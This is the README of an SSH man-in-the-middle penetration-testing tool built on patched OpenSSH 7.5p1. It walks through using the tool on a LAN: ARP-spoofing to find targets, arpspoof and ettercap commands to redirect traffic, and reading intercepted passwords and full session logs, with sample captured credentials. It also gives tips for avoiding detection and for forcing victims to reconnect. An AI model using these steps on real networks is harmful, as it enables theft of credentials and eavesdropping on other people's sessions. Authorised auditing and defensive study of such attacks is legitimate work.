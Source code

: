 # SSH MITM v1.1

Author: [Joe Testa](http://www.positronsecurity.com/about-us/) ([@therealjoetesta](https://twitter.com/therealjoetesta))


## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A patch applied to the OpenSSH v7.5p1 source code causes it to act as a proxy between the victim and their intended SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  But because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**NOTE:** Only run the modified *sshd_mitm* in a VM or container!  Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.


## Change Log

* v1.0: May 16, 2017: Initial revision.
* v1.1: July 6, 2017: Removed root privilege dependencies, added automatic installer, added Kali Linux support, added *JoesAwesomeSSHMITMVictimFinder.py* script to find potential targets on a LAN.


## To Do

The following list tracks areas to improve:

* Support SFTP MITM'ing.
* Print hostname, username, and password at the top of session logs.
* Add port forwarding support.
* Regex substitute the output of *ssh-keygen* when a user tries to check the host key hash. >:]
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

As root, run the *install.sh* script.  This will install prerequisites from the repositories, download the OpenSSH archive, verify its signature, compile it, and initialize a non-privileged environment to execute within.


## Finding Targets

The *JoesAwesomeSSHMITMVictimFinder.py* script makes finding targets on a LAN very easy.  It will ARP spoof a block of IPs and sniff for SSH traffic for a short period of time before moving on to the next block.  Any ongoing SSH connections originating from devices on the LAN are reported.

By default, *JoesAwesomeSSHMITMVictimFinder.py* will ARP spoof and sniff only 5 IPs at a time for 20 seconds before moving onto the next block of 5.  These parameters can be tuned, though a trade-off exists: the more IPs that are spoofed at a time, the greater the chance you will catch an ongoing SSH connection, but also the greater the strain you will put on your puny network interface.  Under too high of a load, your interface will start dropping frames, causing a denial-of-service and greatly raising suspicions (this is bad).  The defaults shouldn't cause problems in most cases, though it'll take longer to find targets.  The block size can be safely raised on low-utilization networks.

Example:

    # ./JoesAwesomeSSHMITMVictimFinder.py --interface enp0s3 --ignore-ips 10.11.12.50,10.11.12.53
    Found local address 10.11.12.141 and adding to ignore list.
    Using network CIDR 10.11.12.141/24.
    Found default gateway: 10.11.12.1
    IP blocks of size 5 will be spoofed for 20 seconds each.
    The following IPs will be skipped: 10.11.12.50 10.11.12.53 10.11.12.141


    Local clients:
      * 10.11.12.70 -> 174.129.77.155:22
      * 10.11.12.43 -> 10.11.99.2:22

The above output shows that two devices on the LAN have created SSH connections (10.11.12.43 and 10.11.12.70); these can be targeted for a man-in-the-middle attack.  Note, however, that in order to potentially intercept credentials, you'll have to wait for them to initiate new connections.  Impatient pentesters may opt to forcefully close existing SSH sessions, prompting users to create new ones immediately...


## Running The Attack

1.) Once you've completed the initial setup and found a list of potential victims (see above), execute *run.sh* as root.  This will start *sshd_mitm*, enable IP forwarding, and set up SSH packet interception through *iptables*.

2.) ARP spoof the target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't likely be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

Alternatively, you can use the *ettercap* tool:

    ettercap -i enp0s3 -T -M arp /192.168.x.1// /192.168.x.5,192.168.x.6//

3.) Monitor *auth.log*.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

4.) Once a session is established, a full log of all input & output can be found in */home/ssh-mitm/session_\*.txt*.


## Sample Results

Upon success, */var/log/auth.log* will have lines that log the password, like this:

    May 16 23:14:01 showmeyourmoves sshd_mitm[16798]: INTERCEPTED PASSWORD: hostname: [10.199.30.x]; username: [jdog]; password: [supercalifragilistic] [preauth]

Furthermore, the victim's entire SSH session can be found in */home/ssh-mitm/session_\*.txt*:

    # cat /home/ssh-mitm/session_0.txt
    Last login: Tue May 16 21:35:00 2017 from 10.50.22.x
    OpenBSD 6.0-stable (GENERIC.MP) #12: Sat May  6 19:08:31 EDT 2017

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.

    jdog@jefferson ~ $ ppss
      PID TT  STAT       TIME COMMAND
    59264 p0  Ss      0:00.02 -bash (bash)
    52132 p0  R+p     0:00.00 ps
    jdog@jefferson ~ $ iidd
    uid=1000(jdog) gid=1000(jdog) groups=1000(jdog), 0(wheel)
    jdog@jefferson ~ $ sssshh  jjtteessttaa@@mmaaggiiccbbooxx
    jtesta@magicbox's password: ROFLC0PTER!!1juan


Note that the characters in the user's commands appear twice in the file because the input from the user is recorded, as well as the output from the shell (which echoes characters back).  Observe that when programs like *sudo* and *ssh* temporarily disable echoing in order to read a password, duplicate characters are not logged.


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd_mitm* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh -p 2222 valid_user_on_debug_host@localhost

To create a new patch, use these commands:

    pushd openssh-7.5p1-mitm/; make clean; popd
    diff -ru --new-file -x '*~' -x 'config.*' -x Makefile.in -x Makefile -x opensshd.init -x survey.sh -x openssh.xml -x buildpkg.sh openssh-7.5p1 openssh-7.5p1-mitm/ > openssh-7.5p1-mitm.patch
